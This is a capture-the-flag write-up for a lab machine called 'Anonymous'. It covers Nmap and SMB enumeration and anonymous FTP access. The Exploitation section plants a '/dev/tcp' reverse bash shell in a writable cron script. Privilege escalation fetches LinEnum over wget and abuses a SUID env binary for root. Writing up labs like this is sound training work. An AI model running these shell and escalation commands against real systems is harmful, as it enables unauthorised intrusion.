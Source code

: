# Anonymous

> RedAiden

## Enumeration

### Nmap

Lets start with a quick Nmap scan.

`nmap -sV -sC 10.10.149.56`
```
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.125.240
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
MAC Address: 02:60:CC:DC:CB:5F (Unknown)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)                                                                                                                   
|   Computer name: anonymous                                                                                                                               
|   NetBIOS computer name: ANONYMOUS\x00                                                                                                                   
|   Domain name: \x00                                                                                                                                      
|   FQDN: anonymous                                                                                                                                        
|_  System time: 2021-01-04T21:53:26+00:00                                                                                                                 
| smb-security-mode:                                                                                                                                       
|   account_used: guest                                                                                                                                    
|   authentication_level: user                                                                                                                             
|   challenge_response: supported                                                                                                                          
|_  message_signing: disabled (dangerous, but default)                                                                                                     
| smb2-security-mode:                                                                                                                                      
|   2.02:                                                                                                                                                  
|_    Message signing enabled but not required                                                                                                             
| smb2-time:                                                                                                                                               
|   date: 2021-01-04T21:53:26                                                                                                                              
|_  start_date: N/A
```

Questions 1-3 can be answered from the scan alone. For the 4th question we need to list all the shares in the smb service. We can use `smbclient` to do so.

`smbclient -L 10.10.149.56`
```
Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
****           Disk      My SMB Share Directory for Pics
IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
```
The answer is the middle Sharename.

### Exploring the FTP service
1. Lets connect to the ftp service: `ftp 10.10.x.x` as the user `anonymous`. 
2. When asked for the password just hit enter. 
3. We can do `ls` to discover a directory called `scripts`. 
4. Navigate to it `cd scripts` and do another `ls` to discover three new files.
```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1032 Jan 05 02:47 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
```
5. Download every file with `mget *`so we can read them in our machine.
6. On our machine, read the `clean.sh` script
```
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
- Looks like it's just cleaning some files and if there are none it adds a log to `removed_files.log`
- If we read the log we can see a bunch of repeated messages, so we can assume it is running as a cron job.
- We know that we can write to the file, so we can abuse that to get a reverse bash shell.


## Exploitation
1. Edit the script to add the [reverse bash shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        bash -i >& /dev/tcp/10.10.187.10/4444 0>&1
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
- Remeber to change the IP to your machine
2. Start a netcat listener on the assigned port `rlwrap nc -lvnp 4444`
   - `rlwrap` helps with making the shell a bit nicer, but it is not necessary.
3. On the terminal with the ftp connection, upload the file with `put clean.sh clean.sh`
   - We are replacing the old script with a our new one.
4. Wait for the connection to appear on the listener.
5. Once on the shell we can find the user flag in the same directory.
```
namelessone@anonymous:~$ ls
ls
pics
user.txt
```

## Privelege Escalation

We can upload a script to do the recon for us and find a vulnerability to gain higher privileges. In this case I'll use [LinEnum](https://github.com/rebootuser/LinEnum).

1. On your machine, start a python http server in the same directory as your script `python -m SimpleHTTPServer`
2. On the reverse shell, download the script `wget http://10.10.x.x:8000/LinEnum.sh`
3. Make it executable `chmod +x LinEnum.sh`
4. Run the script `./LinEnum.sh`
5. After looking at the results, we can see an SUID marked file `/usr/bin/env`
6. Use [gtfobins](https://gtfobins.github.io/) to search for a vulnerability regarding `env`
7. Looking at gtfobins we see that we can use the SUID to get elevated privileges. Run the following command `/usr/bin/env /bin/sh -p`
8. After running it we should get root. You can double check with `whoami`
9. Change into the directory `/root` to find the flag.